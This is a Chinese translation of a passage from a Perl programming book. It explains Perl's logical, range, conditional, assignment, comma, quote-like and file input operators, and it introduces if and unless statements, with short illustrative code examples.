你希望你的新数据库程序 SuperDuperDataCrunch 在以下两种情况之一发生时生成错误：数据越界（即变量 **$in_bounds** 变为假），或者你的薪水降低（即变量 **$salary** 小于 $650,000——这是 Perl 程序员的一份不错的薪水）。你如何在一条语句中将这两个条件在逻辑上连接起来？你可以使用逻辑**或**运算符 **||**。

C 风格的**或**运算符 **||** 执行逻辑**或**操作，你可以用它来连接逻辑子句，如果任一子句为真，则返回整体为真的值。这里有一个例子，如果用户输入的数字超出指定范围，我将显示错误消息：

```
print "Please enter numbers from 5 to 10\n";

while (<>) {
    chop;
    if ($_ < 5 || $_ > 10) {
        print "Please enter numbers from 5 to 10\n";
    } else {
        print "Thank you - let's have another!\n";
    }
}
```

这个运算符也被称为*短路运算符*，因为如果左操作数为真，则不会检查或评估右操作数。|| 运算符与 C 语言中对应的运算符不同，因为它不是返回 0 或 1，而是返回最后计算的值。

|| 运算符作为短路运算符很有用，因为它返回其操作数中第一个为真的值（在 Perl 中，你通常就是这样思考它的，而不仅仅是返回一个真值）。这让你能够在放弃之前尝试各种做事方法，就像这个例子（在这里我通过使用 **die** 函数“放弃”，它将退出程序，显示一条类似：**"在 try.pl 第 x 行无法让这个或那个工作"** 的消息）：

```
$result = this($data) || that($data)
|| die "Can't get this or that to work";
```

因为这个运算符通过返回第一个为真的操作数值来工作，所以它经常派上用场，比如在这里，我用它来为变量设置一个非零的默认值：

```
$value = 0;
$default = 100;
$value = $value || $default;
print $value;
```

100

你可以稍微更简洁地编写这段代码，像这样：

```
$value = 0;
$default = 100;
```


# 第4章 运算符与优先级

```perl
$value ||= $default;
print $value;
```

100

> 提示：如果你设置的默认值变量可以接受0作为有效值，请不要使用此代码。

最后，请注意此运算符被称为C风格的逻辑**或**，因为它与C语言中相应运算符使用相同的符号，具有相同的优先级，并且与优先级较低的Perl **or**运算符不同。

> 提示：程序员通常更倾向于使用优先级较低的Perl *or*运算符，而非C风格的`||`运算符，因为他们不必担心需要在逻辑子句周围添加括号来确保正确的优先级。

## 使用范围运算符：`..`

你站在新手程序员的肩膀旁，看着新手正在输入一个长列表：(1, 2, 3, 4, 5, 6, 7, 8, 9, . . .。你问："还差多少？"新手说："嗯，一直到40,000。"你说："试试范围运算符吧，这能帮你节省几个小时的输入时间。"

范围运算符**..**根据上下文有两种不同的工作方式。在列表上下文中，它返回一个值列表，其范围由传递给该运算符的左右值指示。例如，我可以这样打印一个字符串五次：

```perl
for (1 .. 5) {
    print "Here we are again!\n";
}
```

Here we are again!
Here we are again!
Here we are again!
Here we are again!
Here we are again!

在标量上下文中使用时，**..**返回一个布尔值，只要其左操作数为假，该值就为假。一旦左操作数为真，此运算符将返回真，直到右操作数为真，然后范围运算符再次变为假。

如果你不希望范围运算符在右操作数的下一次迭代之前就对其进行测试，请使用三个点（**...**）而不是两个点。在这种情况下，当运算符处于假状态时，右操作数不会被求值；当运算符处于真状态时，左操作数不会被求值。

在标量上下文中，范围运算符返回的值对于假是空字符串，对于真是序列号。

> 提示：**范围中的最终序列号会附加字符串 *E0***（请注意，此字符串将最后一个序列号乘以10的0次方，即乘以1，不会影响序列号的数值），如果你想监视序列的结束，可以搜索此字符串。

如果范围运算符在标量上下文中的任一操作数是常量，则该操作数会自动与内置Perl变量**$.**（保存当前行号）进行比较。

## 使用条件运算符：`?:`

新手程序员说："我想我现在开始掌握运算符的使用了，你使用像**!**这样的一个参数的一元运算符，以及像**+**这样的两个参数的二元运算符。"你说："对，还有像**?:**这样的三个参数的三元运算符。"新手问道："*三元*运算符？"

条件运算符**?:**接受三个操作数，其工作方式非常像**if/then/else**结构。如果**?**之前的操作数为真，则对**:**之前的*操作数*求值并返回；否则，对**:*之后*的操作数求值并返回。

这是一个示例，展示如何返回用户输入数字的绝对值（假设你暂时忘记了Perl有一个内置的**abs**函数来求绝对值，但记得**<>**结构可以读取用户输入并将其放入默认变量**$_**中）：

```perl
while (<>) {
    print $_ >= 0 ? $_ : -$_;
}
```

这里，输入的数字与0进行比较；如果数字大于或等于0，此代码仅打印该数字。否则，代码使用一元运算符在打印前翻转数字的符号。

这是另一个示例，我将用户输入的数字转换为十六进制数字并打印它们：

```perl
while (<>) {
    print $_ < 10 ? $_ : "${\((a .. f)[$_ - 10])}\n";
}
```

`?:`运算符非常适合这种情况，因为有两个独立的情况需要处理（这是指示`?:`运算符可能是正确选择的关键）——输入的值在0-9范围内，或在10-15范围内。

请注意，在此示例（或前一个示例）中我没有进行任何错误检查；我可以使用嵌套的`?:`运算符更加谨慎一些，检查输入值并在输入的数字无法转换为单个正数或零的十六进制数字时显示错误消息：

```perl
while (<>) {
    print $_ > 0 && $_ < 10 ? $_ : "${\($_ < 16 ?
    (a .. f)[$_ - 10] : \"Number is not a
    single hex digit.\")}\n";
}
```

## 处理赋值 `=`、`+=`、`-=` 及更多

新手程序员说："好吧，一元运算符、二元运算符、三元运算符。我现在掌握概念了。那么，Perl中最常用的运算符是什么？"你说："那一定是赋值运算符。"

赋值运算符**=**以这种方式将数据项（如标量、列表、数组等）赋给左值（即与内存位置对应的数据项）：

```perl
$variable1 = 5;
print $variable1;
```

5

你可以在同一条语句中执行多个赋值：

```perl
$x = $y = $z = 1;
```

像这样的多重赋值中的项是从右向左求值的，除非你用括号指定其他方式。事实上，使用括号，你可以在一行代码中实现相当复杂的赋值，像这样：

```perl
$x = 2 * ($y = 2 * ($z = 1));
print join(", ", $x, $y, $z);
```

4, 2, 1

你也可以使用C语言中的快捷赋值运算符，它们将赋值与另一个运算符组合在一起，例如这个例子：

```perl
$doubleme *= 2;
```

此赋值将**$doubleme**中的值乘以2，并将结果存储在同一个变量中。以下是允许的快捷赋值运算符：

```
**=  +=  *=  &=  <<=  &&=  -=  /=  |=  >>=  ||=  .=  %=  ^=  x=
```

在Perl中，赋值实际上返回一个左值——即被赋值的变量（该变量又保存了它被赋予的值）。因为赋值运算符产生一个左值，所以你可以找到像这样的代码，其中我截取**$input**中的值（而不仅仅是赋值操作的返回值）：

```perl
chop ($input = 123);
print $input;
```

12

这对于稍微精简代码很有用，例如在这个例子中，代码读取输入、截断它并将结果保留在**$input**中，所有这些都在一行中完成：

```perl
chop ($input = <>);
```

你也可以将赋值运算符用作左值（包括从v5.6.0开始，布尔赋值运算符如`||=`）：

```perl
$value = 5;
($value += 5) += 5;
print $value;
```

15

## 使用逗号运算符：`,`

新手程序员说："好的，我现在对Perl中运算符的使用掌握得相当好了。还有什么可能让我惊讶的吗？"你说："嗯，还有逗号运算符。"新手问道："逗号*运算符*？"

在Perl中，逗号实际上是运算符，逗号运算符在标量上下文和列表上下文中的工作方式不同。在标量上下文中，它对其左参数求值，丢弃该值，然后对其右参数求值并返回该值。这是一个例子：

```perl
$variable = (1, 2, 3);
print $variable;
```

3

在列表上下文中，逗号运算符实际上是列表参数分隔符，并将两个参数都插入列表中，如这个例子：

```perl
@array = (1, 2, 3);
print join(", ", @array);
```

1, 2, 3

请注意，`=>`符号（在Perl中称为`=>`双字符符号，因为它是由两个字符组成的符号）是逗号运算符的同义词。同时请注意，从Perl 5.001版本开始，`=>`运算符会强制其左侧的任何单词被视为字符串。

## 右向列表运算符

在本章开头，我们看到列表运算符对其左侧的项目具有非常高的优先级。然而，对右侧来说，情况则不同。

列表运算符对其右侧具有低优先级，这样逗号运算符就可以在将其馈送给列表运算符之前创建一个列表（参见前面的主题——逗号运算符比列表运算符的右侧优先级高一级）。这是我们在前面关于列表运算符的章节中看到的示例：

```perl
print 1, 2, 3, 4, sort 9, 8, 7, 6, 5;
```

123456789

## 使用逻辑 `not`

Perl包含一组与传统C风格逻辑运算符`!`、`&&`、`||`和`^`匹配的低优先级运算符。**not**运算符返回其操作数的逻辑非，将真翻转为假，假翻转为真。此运算符与`!`相同，

只是它的优先级非常低（这意味着你不必太担心需要在表达式中添加括号）。

以下是一个示例，展示了由于不同的优先级，使用 **!** 和 **not** 会得到不同的结果；首先，我使用 **not**，从这段代码中得到 true 的结果：

```
$v1 = 1;
$v2 = 0;
$v3 = not $v1 && $v2;
if($v3) {
    print "\$v3 is true.";
}
else {
    print "\$v3 is false.";
}

$v3 is true.
```

然后我将 **not** 改为 **!**，得到了相反的结果，因为 **!** 具有更高的优先级，在与 **$v2** 进行 **And** 运算之前先对 **$v1** 取反：

```
$v1 = 1;
$v2 = 0;
$v3 = ! $v1 && $v2;
if($v3) {
    print "\$v3 is true.";
}
else {
    print "\$v3 is false.";
}

$v3 is false.
```

## 使用逻辑 **与**

**and** 运算符与逻辑 **&&** 运算符相同，只是其优先级较低。**and** 运算符首先计算其左操作数，并且*仅当*左操作数为真时才计算其右操作数。换句话说，**and** 运算符以与 **&&** 运算符相同的方式进行短路求值。**and** 运算符对真值的操作如表 4.8 所示。

### 表 4.8 and 运算符。

| and | 0 | 1 |
|-----|---|---|
| 0 | 0 | 0 |
| 1 | 0 | 1 |

有关此运算符的详细信息，请参阅本章前面的主题“使用 C 风格逻辑 **与：&&**”，因为这里唯一的区别是 **and** 的优先级较低。程序员经常使用低优先级的 **and** 运算符而不是 **&&**，这样他们就不必担心在逻辑子句周围使用括号。

以下是一个示例，展示了 **&&** 运算符和 **and** 运算符之间预期的差异。**&&** 运算符的优先级高于范围运算符，因此在这里，**$v1** 在范围创建之前就与范围中的第一个元素 **1** 进行了 **And** 运算。由于 **$v1** 为 **0**，这使得范围中的第一个元素为 **0**，而不是 **1**，结果如下：

```
$v1 = 0;
@a1 = $v1 && 1 .. 10;
print join (" ", @a1);
```

*0 1 2 3 4 5 6 7 8 9 10*

另一方面，如果你使用 **and** 运算符而不是 **&&**，范围会首先被计算，然后与 **$v1** 进行 **And** 运算。这将在标量上下文中计算结果列表，返回其最后一个元素 **10**，然后与 **0** 进行 **And** 运算，得到以下结果：

```
$v1 = 0;
@a1 = $v1 and 1 .. 10;
print join (" ", @a1);
```

*0*

## 使用逻辑或

**or** 运算符返回其第一个为真的操作数（从左到右计算）的值。它与 **||** 相同，只是其优先级较低——有关 **||** 运算符的详细信息，请参阅本章前面的主题“使用 C 风格逻辑 **或：||**”。程序员经常使用低优先级的 **or** 运算符而不是 **||**，这样他们就不必担心在逻辑子句周围使用括号。

你可以在表 4.9 中看到 **or** 运算符对真值的处理方式。

### 表 4.9 or 运算符。

| or | 0 | 1 |
| --- | --- | --- |
| 0 | 0 | 1 |
| 1 | 1 | 1 |

请注意，由于 **or** 运算符返回第一个为真的操作数的值，它常用于*短路求值*，这意味着一旦计算到第一个为真的操作数，执行就会停止。以下是一个示例，我尝试打开一个文件，如果代码无法打开文件，则显示错误消息并使用 **die** 函数退出：

```
open FileHandle, $filename or die "Cannot open $filename\n";
```

**or** 运算符存在的一个重要原因是你可以将它用于列表赋值，而无需额外的括号。经典示例是当您将列表函数与 **die** 函数（表示操作失败）一起使用时。C 风格的 **||** 运算符优先级高于赋值运算符，因此这里 **stat** 函数的结果（它返回一个包含文件信息的列表）在赋值给 **@statdata** 之前被在标量上下文中计算（当然，在标量上下文中计算列表会破坏对 **@statdata** 的预期赋值）：

```
@statdata = stat("file.pl") || die "Sorry, cannot stat!";
```

以下是使用 **or** 运算符的 Perl 方式：

```
@statdata = stat("file.pl") or die "Sorry, cannot stat!";
```

这样是可行的，因为 **or** 运算符的优先级低于赋值运算符，这意味着如果 **stat** 成功，则来自 **stat** 操作的列表会被赋值给 **@statdata**。

这是在列表赋值中执行 **或** 操作（通常是将 **die** 函数与列表函数进行 **或** 运算）时使用 **or** 的一个主要原因。

另一方面，请注意在标量赋值中使用 **or**，原因恰恰相同——它的优先级低于赋值运算符。例如，这个语句

```
$v1 = $v2 or $v3;
```

实际上是将 **$v2** 赋值给 **$v1**，然后将该赋值的结果（即 **$v2** 的值）与 **$v3** 进行 **或** 运算，这可能不是你想要的。在这种情况下，你可以使用括号，或者使用优先级更高的 **||** 运算符：

```
$v1 = ($v2 or $v3);
$v1 = $v2 || $v3;
```

## 使用逻辑异或：xor

**xor** 运算符返回其两个操作数的异或值，即 **Xor**，你可以在表 4.10 中看到它如何处理真值。它与 ^ 运算符相同，只是其优先级较低。有关更多详细信息，请参阅主题“异或位值：^”。

### 表 4.10 xor 运算符。

| xor | 0 | 1 |
|-----|---|---|
| 0 | 0 | 1 |
| 1 | 1 | 0 |

该运算符完成了低优先级逻辑运算符集：**not**、**and**、**or**。

## 引号及类引号运算符

编程正确性沙皇上下打量着你的 Perl 运算符列表。“相当不错，”PCC 说，“但是引号运算符呢？还有那些像引号一样工作的运算符呢？”“嗯，”你说，“使用引号和类引号运算符在 Perl 中不就是创建一个项吗？而一个项不是具有最高的优先级吗？”“是的，”PCC 说，“但你可以使用各种引号，以及类引号运算符；为了完整性，你应该把它们列出来。”“好吧，”你说。

引号在 Perl 中是运算符，它们创建项，而项具有最高优先级（请参阅本章开头的主题“最高优先级：项和左向列表运算符”，我在其中首次讨论了将引号用作运算符）。

引号还为你提供了插值和模式匹配功能。你可以在表 4.11 中看到所有引号和类引号运算符。表 4.11 还指出了每种类型的引号或类引号运算符是否对其表达式进行插值（以 $ 或 @ 开头的表达式可以被插值）。在该表中，字符 [ 和 ] 代表你选择的任何分隔符。请注意，如果你在类引号表达式的开头使用一个分隔符，你应该在末尾使用相同的分隔符。

> **提示：** 在类引号表达式中使用 Perl 特别识别的分隔符——( )、< >、[ ] 和 { }——有一个实际优势：你可以嵌套这些分隔符，但其他分隔符则不行。

### 表 4.11 引号和类引号运算符。

| 转义字符 | 含义 | | | |
| --- | --- | --- | --- | --- |
| \" | 双引号 | | | |
| 引号 | q 构造 | 含义 | 是否插值？ | |
| '' | q[ ] | 字面量 | 否 | |
| "" | qq[ ] | 字面量 | 是 | |
| `` | qx[ ] | 命令 | 是 | |
|  | qw[ ] | 单词列表 | 否 | |
| // | m[ ] | 模式匹配 | 是 | |
|  | qr[ ] | 模式 | 是 | |
|  | s[ ][ ] | 替换 | 是 | |
|  | tr[ ][ ] | 转换 | 否 | |

你可以在运算符和分隔符之间使用空格——除非你使用 # 作为分隔符，因为像 **q #data#** 这样的表达式会被解释为 **q** 运算符后跟一个注释。

请注意，我这里只是为了完整性列出引号和类引号运算符。更详细的讨论，请参见第 8 章。

## 文件 I/O 运算符：<>

你用于从文件读取的尖括号，**<** 和 **>**，实际上构成了一个运算符——文件 I/O 运算符。该运算符的工作方式取决于你传给它的内容，因此我将在此介绍它。更多细节请参阅关于文件处理的第 13 章。

如你所知，你可以使用结构 **<>** 从命令行读取输入，如下所示：

```
while(<>) {
    print;
}
```

实际上，**<>** 是 **<STDIN>** 的简写，其中 **STDIN** 是标准输入文件句柄。你通常使用 **<** 和 **>** 从文件句柄读取，如下所示：**<FILEHANDLE>**。


## 使用 <FILEHANDLE>

如果你在列表上下文中使用 **<FILEHANDLE>**，它将返回对应文件中的所有行，如下例所示，我将这些行赋值给一个数组：

```
@all_lines = <FILEHANDLE>;
```

如果你在标量上下文中使用它，它只返回当前行，就像这样：

```
$one_line = <FILEHANDLE>;
```

这种操作符最常见的用途可能是从预定义的文件句柄 **STDIN** 读取输入内容——换句话说，就是作为简写版本 **<>**——因此我将在这里详细介绍其工作原理。

## 使用 <>

当你使用 **<>** 时，Perl 会首先检查 **@ARGV** 数组。如果该数组不为空，Perl 会将其内容作为要打开并读取的文件名列表来处理。例如，假设你将以下代码放在文件 `argv.pl` 中：

```
while(<>) {
    print;
}
```

你可以使用此脚本来读取并显示其自身的代码，如下所示：

```
%perl argv.pl argv.pl
```

```
while(<>) {
  print;
}
```

另一方面，如果 **@ARGV** *是*空的，**$ARGV[0]** 会被设置为 "-"，当打开该文件时，Perl 会从 **STDIN** 读取。这就是你最终使用 **<>** 读取输入内容的方式。

> **提示：** **<>** 结构只有一次会返回 *undef*（表示文件结束）；如果你再次使用它，Perl 会假设你正在处理另一个 **@ARGV** 列表。如果你没有重置 **@ARGV**，Perl 将开始从 **STDIN** 读取。

除了 **<FILEHANDLE>** 和 **<>** 形式外，你还可以将一个标量变量传递给文件 I/O 操作符。

## 使用 <$scalar>

如果你将一个标量变量放在 < 和 > 之间，Perl 会假设该标量包含一个文件句柄（或文件句柄的引用，或文件句柄的类型glob），并允许你从该文件句柄读取：

```
$filehandle = \*STDIN;
@data = <$filehandle>;
```

最后还有一种使用文件 I/O 操作符的方式——使用文件名模式。

## 使用 <*pattern*>

如果尖括号内有内容，但它既不是文件句柄也不是标量变量，Perl 会将其解释为需要进行 *glob* 处理的文件名模式。这意味着文件 I/O 操作符将返回一个连续的文件名列表（或根据上下文返回下一个文件名），这些文件名与你在 <> 中指定的模式匹配。例如，以下是如何查找与模式 `*.h` 匹配的文件：

```
while(<*.h>) {
    print;
    print "\n";
}
```

file1.h
file2.h

关于文件 I/O 操作符，最后一个需要考虑的问题是——在循环中使用它。

## 在循环中使用 < 和 >

如果你在 **while** 或 **for** (;;) 循环的条件部分（且仅限这些循环）内使用 <FILEHANDLE>，返回的值会自动赋值给变量 $_。这是一个典型的例子，其中 **print** 打印从 **STDIN** 读取的行：

```
while(<>) {
    print;
}
```

同时，请注意，赋值给 $_ 的值会被检查是否已定义；进行此检查是为了避免 Perl 将某些行视为假值而可能引发的问题。

> **提示：***请注意，如果你在 **while** 或 **for** (;;) 循环外使用 <**FILEHANDLE**>，且没有显式测试结果是否已定义，那么当 **-w** 开关生效时，你会收到一条警告。*

# 第4章 操作符和优先级

# Perl 中没有的 C 操作符

> “我放弃了，”新手程序员说，“难道*没有任何* C 有而 Perl 没有的操作符吗？”“是的，”你说，“确实有。”

Perl 覆盖了 C 操作符集的大部分。然而，C 有一些 Perl 没有的操作符，它们与类型相关。它们如下所示：

-   一元 **&** —— C 的取地址操作符。在 Perl 中，你使用 \ 操作符来获取引用，而不是 **&**。
-   一元 *** —— C 的解引用地址操作符。在 Perl 中，你使用前缀解引用操作符代替：**$**、**@**、**%** 和 **&**；这些操作符与 C 中的 * 不同，它们是有类型的。
-   **(type)** —— C 的类型转换操作符。在 Perl 中，类型通过前缀解引用操作符显式处理，并且类型在 Perl 中远不如在 C 中重要（也就是说，C 是强类型语言，而 Perl 不是）。类型之间允许的转换由 Perl 自动处理。

# 第5章

# 条件语句和循环

***如果你需要以下方面的快速解决方案：***

***请参阅：***

| 如果你需要以下方面的快速解决方案： | 请参阅： |
| --- | --- |
| Perl 中的简单语句和复合语句 | 187 |
| 使用 **if** 语句 | 189 |
| 反向 **if** 语句：**unless** | 191 |
| 使用 **for** 循环进行迭代 | 194 |
| 使用 **foreach** 循环进行迭代 | 199 |
| 使用 **while** 遍历元素 | 202 |
| **while** 循环中的 **continue** 块 | 205 |
| 反向 **while** 循环：**until** | 207 |
| **until** 循环中的 **continue** 块 | 208 |
| 使用 **map** 遍历元素 | 209 |
| 使用 **grep** 搜索元素 | 210 |
| 使用 **if**、**unless**、**until**、**while** 和 **foreach** 修改语句 | 212 |
| 使用 **do** 语句创建 **do while** 循环 | 214 |
| 使用 **next** 跳转到下一个循环迭代 | 216 |
| 使用 **last** 命令结束循环 | 218 |
| 使用 **redo** 循环命令重做迭代 | 219 |
| 创建 **switch** 语句 | 221 |
| 使用 **goto** | 223 |
| 使用 **eval** 函数执行代码 | 224 |
| 使用 **exit** 语句结束程序 | 225 |
| 使用 **die** 语句 | 226 |

## 深入探讨

在前面的章节中，你已经了解了 Perl 为数据处理（标量、列表、数组和哈希）提供的内置支持，以及可以用来处理这些数据的操作符。但是，如果 Perl 仅限于此，那它比计算器也强不了多少。编程的下一步是让代码根据数据做出决策——也就是说，实现程序逻辑。

本章全部关于程序逻辑。在这里，我们将让代码首次决定程序的执行流程。毕竟，这正是编程的全部意义——通过做出适当的决策并执行，使用代码来操作你的数据。

因此，在本章中，我们将使用条件语句和循环来决定程序的流程。我们还将看到一些更多的程序流程语句，如 **goto**、**exit** 和 **die**。

## 条件语句

*条件语句*，也称为*分支*，允许你根据所做的逻辑测试来引导代码执行。换句话说，条件语句允许你在代码中做出决策并据此采取行动。

你使用条件语句对数据进行测试并采取适当的行动。例如，我可能想测试 **$variable** 的值，看看它是否等于5。我可以使用 **if** 语句来做到这一点；如果值是5，代码将显示字符串 **"Yes, it's five.\n"**；否则，代码显示字符串 **"No, it's not five.\n"**：

```
$variable = 5;

if ($variable == 5) {
    print "Yes, it's five.\n";
} else {
    print "No, it's not five.\n";
}

Yes, it's five.
```

即使这个简单的例子也表明了 **if** 语句的强大功能：**if** 语句检查括号中的条件表达式，如果该语句求值为真（即非零），则程序执行第一个代码块中的代码。否则，将执行可选的 **else** 块中的代码。

**if** 语句是一个复合语句，这意味着你需要使用花括号来分隔其中的代码块。注意，由于 Perl 会跳过空白字符（包括换行符），你可以将前面的代码写成这样：

```
$variable = 5;

if ($variable == 5)
{
    print "Yes, it's five.\n";
}
else
{
    print "No, it's not five.\n";
}
```

然而，你*不能*使用 C 风格的 **if** 语句语法，这种语法在代码块只包含一行时可省略花括号：

```
$variable = 5;

if ($variable == 5)         #错误！
    print "Yes, it's five.\n";
else
    print "No, it's not five.\n";
```

像 **if** 这样的条件语句让你决定程序流程，正如已经提到的，这是编程的大部分内容——做出决策。

## 循环语句

*循环语句*也是编程的一个强大组成部分，因为它们允许你对数据集执行迭代操作，而这正是计算机的强项——快速、重复的计算。循环语句会一直执行循环体中的代码，直到你指定的条件测试满足为止。

我们已经在本书的许多地方见过 **while** 循环；这个例子从 **STDIN** 读取并打印每一行：

```
while (<>) {
    print;
}
```


我们稍后将在本章中正式了解 **while** 循环的工作原理。

更复杂的循环可以利用循环索引，就像这个 **for** 循环计算阶乘值一样；这里，循环索引是一个名为 **$loop_index** 的变量：

```
$factorial = 1;

for ($loop_index = 1; $loop_index <= 6; $loop_index++) {
    $factorial *= $loop_index;
}
print "6! = $factorial\n";
```

*6! = 720*

使用循环索引，你可以对数据集中的值进行索引，逐个处理数据值，就像下面这个例子中遍历数组一样：

```
@array = ("one", "two", "three");
for ($loop_index = 0; $loop_index <= $#array; $loop_index++)
{
    print $array[$loop_index] . " ";
}
```

*one two three*

事实上，既然是 Perl，你总是能找到另一种实现方式。你可以使用像 **for** 这样的循环而完全不需要显式的索引变量，就像下面这个例子中让 **for** 循环使用默认变量 **$_** 一样（稍后会详细介绍其工作原理）：

```
$factorial = 1;

for (1 .. 6) {
    $factorial *= $_;
}
print "6! = $factorial\n";
```

*6! = 720*

就是这样；本质上，条件语句让你在代码中做出决策，循环语句让你处理数据上的重复操作。两者都是强大的编程构造，现在是时候让它们发挥作用了。

## 快速解决方案

## Perl 中的简单语句和复合语句

既然我们已经在处理编码问题，有必要概览一下 Perl 中两种不同类型的语句——*简单语句*和*块*——特别是因为 Perl 中的条件语句和循环语句都是基于块来定义的。

简单语句就是你通常认为的 Perl 代码行：它不使用花括号，并以分号结尾。不过，既然是 Perl，总有例外：你确实会在某些关键字后面使用花括号，比如 **eval{}** 和 **do{}**。事实上，在一种情况下分号也是可选的。如果简单语句是块中的最后一条语句，你不需要在它后面加分号（就像列表中最后一项后面不需要逗号一样——但和那个逗号一样，块中最后一条简单语句后面的分号使得以后添加新语句更加方便）。

然而，你编写的大多数简单语句都将是一行代码，不使用花括号，并以分号结尾。现在，来看一些简单语句的例子：

```
$variable = 1;
$variable = $temperature;
print $z;
@array = ('0' .. '9', 'a' .. 'f');
```

一个值得注意的要点是，每个简单语句后面都可以跟一个（且只能跟一个）这种形式的修饰符（我们将在本章中多次看到）：

```
if EXPR
unless EXPR
while EXPR
until EXPR
foreach EXPR
```

块是语句的序列——也称为复合语句——它们定义了一个作用域（即变量的可见区域）。块*通常*由花括号 { 和 } 分隔。在 Perl 中，你不能说块*总是*由花括号分隔，因为在某些情况下并非如此。有时块由字符串的范围来分隔，比如在 **eval** 语句中；有时块由文件边界来分隔；还会出现其他特殊情况。不过，通常块是由花括号分隔的，而这样的块定义了自己的作用域。同样值得注意的是，虽然 Perl 将块定义为语句的序列，但花括号中的单条语句也定义了一个块。

这些例子展示了块的工作方式：

```
while(<>) {
    @array = ('0' .. '9', 'a' .. 'f');
    $hex = $array[$_];
    print "$hex\n";
}
```

```
if (open(CHILDHANDLE, "|-")) {
    print CHILDHANDLE "Here is the text.";
    close(CHILDHANDLE);
}
```

```
if ($head != $tail) {
    $data = $buffer[$head]{data};
    $head = $buffer[$head]{next};
    return $data;
} else {
    return undef;
}
```

Perl 中的条件语句和循环语句实际上是基于块来定义的。考虑以下可能性：

```
if (EXPR) BLOCK
if (EXPR) BLOCK else BLOCK
if (EXPR) BLOCK elsif (EXPR) BLOCK ... else BLOCK
unless (EXPR) BLOCK
unless (EXPR) BLOCK else BLOCK
unless (EXPR) BLOCK elsif (EXPR) BLOCK ... else BLOCK
LABEL while (EXPR) BLOCK
LABEL while (EXPR) BLOCK continue BLOCK
LABEL for (EXPR; EXPR; EXPR) BLOCK
LABEL foreach VAR (LIST) BLOCK
LABEL BLOCK continue BLOCK
```

因为条件语句和循环语句是基于块而非语句（如 C 语言中）定义的，所以在条件语句和循环中使用花括号是强制性的。在 C 语言中，你可以在某些情况下省略花括号，但在 Perl 中不行。

## 使用 if 语句

"我需要做一个决策，"新手程序员说。"什么决策？"你问。新手说："问题是这样的：**$budget** 的值是大于还是小于 0？"你问："有什么区别？"新手说："如果 **$budget** 小于 0，我就被解雇了。"你说："好吧，最好用 **if** 语句来检查一下。"

**if** 语句是 Perl 中的核心条件语句。该语句检查括号中指定的条件，如果该条件求值为 true（即非零或非空字符串），则执行关联块中的代码。

你还可以使用 **else** 子句来存放当语句条件为 false 时执行的代码，还可以使用 **elsif**（注意：不是其他语言中的 **else if** 或 **elseif**）子句来对其他条件执行额外的测试。通常，你可以这样使用 **if** 语句：

```
if (EXPR) BLOCK
if (EXPR) BLOCK else BLOCK
if (EXPR) BLOCK elsif (EXPR) BLOCK ... else BLOCK
```

注意表达式 *EXPR*。这个表达式决定了该语句中的程序流。如果 *EXPR* 求值为 true，则执行紧随其后的块中的代码；如果 *EXPR* 求值为 false，则不执行紧随其后的块中的代码。而是执行接下来的 **else** 块中的代码——如果存在的话。

如果不存在 **else** 语句，Perl 会查找 **elsif** 语句，它是 **else** 语句与新 **if** 语句的组合，因此它包含一个需要测试的新条件。如果 **elsif** 语句中的条件求值为 true，则执行其块中的代码。如果求值为 false，Perl 会查找下一个 **elsif** 语句，测试重新开始。

注意，一个 **if** 后面只能有一个 **else** 语句，但你可以有任意多个 **elsif** 语句，每个都有各自的条件。

以上就是 **if** 语句的工作原理。现在，来看这个例子：在这个例子中，我使用等号运算符 == 来检查一个变量是否等于 5，如果是，则通过消息向用户指示该结果：

```
$variable = 5;

if ($variable == 5) {
    print "Yes, it's five.\n";
}
```

> Yes, it's five.

注意这里的括号中的表达式。该表达式是一个逻辑表达式，一个条件，求值为 true 或 false（由于任何非零或非空字符串都被视为 true，你可以充分发挥 **if** 语句条件的创造力）。如果为 true，则执行 **if** 语句后面的块中的代码。

你可以在 **if** 语句的条件中使用多个逻辑子句，通过 **&&** 和 **||**（或 **and** 运算符和 **or** 运算符）将它们连接起来，如下所示：

```
use integer;

$variable = 5;

if ($variable < 6 && $variable > 4) {
    print "Yes, it's five.\n";
}
```

> Yes, it's five.

你还可以在 **else** 子句中包含代码，它在前面 **if** 的条件求值为 false 时执行：

```
$variable = 6;

if ($variable == 5) {
    print "Yes, it's five.\n";
} else {
    print "No, it's not five.\n";
}
```

> No, it's not five.

你还可以添加 **elsif** 子句来执行任意数量的测试。在这种情况下，如果第一个条件为 false，则测试第二个条件。如果它为 false，则测试下一个，依此类推。如果所有条件都不为 true，则执行 **else** 子句中的代码（另请参阅本章后面的"创建 **switch** 语句"主题）：

```
$variable = 2;

if ($variable == 1) {
    print "Yes, it's one.\n";
} elsif ($variable == 2) {
    print "Yes, it's two.\n";
} elsif ($variable == 3) {
    print "Yes, it's three.\n";
} elsif ($variable == 4) {
    print "Yes, it's four.\n";
} elsif ($variable == 5) {
    print "Yes, it's five.\n";
} else {
    print "Sorry, can't match it!\n";
}
```

是的，它是二。

以上就是正式的 **if** 语句的全部内容。在结束本话题之前，请注意你可以像下面这样将 **if** 作为修饰符与简单语句配合使用：

```
while (<>) {
    print "Too big!\n" if $_ > 100;
}
```

了解 Perl 可以这样工作是好事，但这个示例与 **if** 语句并不相同——这是 **if** *修饰符*。有关此修饰符以及其他语句修饰符的详细信息，请参阅本章后面的"使用 **if**、**unless**、**until**、**while** 和 **foreach** 修饰语句"话题。

### 反向 if 语句：**unless**

编程正确性专员，一位 C++ 专家，疑惑地看着你的代码。"这是什么语句？"编程正确性专员问道。"它以 **unless** 开头，"编程正确性专员说。"没错，"你说，"这就是 **unless** 语句。""那是什么？"编程正确性专员问道。"算是反向的 **if**，"你说，"而且完全合法。"

**unless** 语句确实很像反向的 **if** 语句。它的工作方式与 **if** 相同，只不过它在指定条件为 *假* 而非真时执行关联代码块中的代码。你可以按如下方式使用 **unless**（注意这里对 **if** 语句的每种形式都给出了使用 **unless** 的对应形式）：

# 第5章 条件语句与循环

```
unless (EXPR) BLOCK
unless (EXPR) BLOCK else BLOCK
unless (EXPR) BLOCK elsif (EXPR) BLOCK ... else BLOCK
```

注意表达式 *EXPR*。该表达式决定了此语句中的程序流程。如果 *EXPR* 的求值结果为假，则执行紧随其后的代码块中的代码；如果 *EXPR* 的求值结果为真，则不执行紧随其后的代码块中的代码。相反，如果存在 **else** 代码块，则执行该代码块中的代码。

如果不存在 **else** 语句，Perl 会查找 **elsif** 语句，它是 **else** 语句与新的 **if** 语句的组合，因此包含一个新的待测试条件。如果 **elsif** 语句中的条件求值为真，则执行其代码块中的代码。如果求值为假，Perl 会继续查找下一个 **elsif** 语句，测试重新开始。

请注意，**unless** 后面只能跟一个 **else** 语句，但可以有任意多个 **elsif** 语句，每个都有自己的条件。

